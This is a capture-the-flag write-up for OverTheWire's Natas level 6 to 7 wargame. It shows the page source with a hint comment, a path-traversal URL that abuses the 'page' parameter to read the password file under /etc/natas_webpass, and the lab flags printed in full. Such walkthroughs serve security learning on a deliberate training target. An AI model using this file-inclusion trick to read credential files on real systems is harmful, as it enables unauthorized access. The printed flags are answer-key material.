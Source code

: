 # Natas Level 6 → Level 7 File inclusion Vulnerability from path traversal

## Previous Flag
<b>bmg8SvU1LizuWjx3y7xkNERkHxGre0GS</b>

## Goal
Username: natas7<br>
URL: http://natas7.natas.labs.overthewire.org<br>

Home About

## What I learned
```
Nothing
```

## Solution
```
F12 → Elements

<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
this is the front page

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 --> 👀
</div>

<div id="wechallform" class="ui-draggable" style="display: block;"><p>Submit token</p><form id="realwechallform" action="https://www.wechall.net/10-levels-on-Natas.html" enctype="application/x-www-form-urlencoded" method="post"><input type="hidden" name="wfid" value="8"><input type="hidden" name="password_solution" value="bmg8SvU1LizuWjx3y7xkNERkHxGre0GS"><input type="hidden" name="igotitnow" value="Register"></form></div></body>

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8 ⌨️
xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q 🔐
```

## Flag
<b>xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q</b>

## Continue
[Continue](./Natas0708.md)
